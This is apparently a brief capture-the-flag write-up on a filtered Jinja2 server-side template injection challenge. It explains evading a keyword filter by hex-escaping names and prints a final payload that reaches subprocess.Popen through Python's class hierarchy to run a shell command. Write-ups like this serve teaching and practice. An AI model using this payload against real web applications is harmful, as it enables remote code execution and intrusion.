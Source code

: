 ![chal](https://github.com/user-attachments/assets/28fdc428-df1c-4b95-bba6-36a595572805)


![filter_detection](https://github.com/user-attachments/assets/23780694-a7e8-42fa-9c9a-179554acfd07)


Same as the previous `SSTI` challenge, but this time the server filters the some words to avoid our exploit. However, because Jinja2 is running in Python, so in order to bypass the filter, we can encode the payload to ASCII text and send it to the server ;).

![bypass_filter](https://github.com/user-attachments/assets/d90d80ae-fd66-4395-8ab7-4f3254e1a2c6)


![output](https://github.com/user-attachments/assets/445e00ee-3284-4572-8f63-94019cbb45dc)


The final payload is `{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5f\x67etitem\x5f\x5f')(356)('whoami',shell=True,stdout=-1)|attr('communicate')()}}`.

![flag](https://github.com/user-attachments/assets/dbd47460-267f-40db-998d-5a1639d1b804)
